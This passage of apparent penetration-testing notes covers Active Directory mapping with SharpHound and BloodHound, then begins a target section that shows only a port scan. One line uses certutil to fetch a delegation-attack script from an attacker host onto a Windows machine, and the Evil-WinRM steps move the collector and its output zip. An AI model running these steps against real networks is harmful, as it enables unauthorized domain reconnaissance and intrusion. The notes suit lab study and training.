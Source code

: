 
To assist with visualizing the AD network use Bloodhound
#### BloodHound - SharpHound AD Visualizer

1. SharpHound first which gets a zip file
2. Bloodhound to analyze the zip file
	1. Upload the data zip
On Windows
```
certutil -urlcache -split -f "http://192.168.x.x/rbcd.py"
```

```
.\SharpHound.exe -c all
```

On Evil-WinRM via PS
```
upload /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe
```

```
download 20220110120802_BloodHound.zip
```

On Kali
- As docker
```
sudo docker run -it \	
   -p 7474:7474 \
   -e DISPLAY=unix$DISPLAY \
   -v /tmp/.X11-unix:/tmp/.X11-unix \
   --device=/dev/dri:/dev/dri \
   -v ~/Desktop/bloodhound/data:/data \
   --name bloodhound belane/bloodhound
```

- On system start the console & GUI 
```
sudo neo4j console
```

```
bloodhound --no-sandbox
```

default creds `neo4j:neo4j`
Prompted to change my password so changed to `kali`



# Individual Targets
## 192.168.128.110 - Linux - Vuln Web App - ROOTED

Target IP  given

Set up a directory for the target and enter it
```sh
mkdir Linux-192.168.128.110
cd Linux-192.168.128.110
```
### Recon
Start with a quick open port scan
```sh
rustscan 192.168.128.110
```
	PORT     STATE SERVICE    REASON
	22/tcp   open  ssh        syn-ack
	80/tcp   open  http       syn-ack
	592/tcp  open  eudora-set syn-ack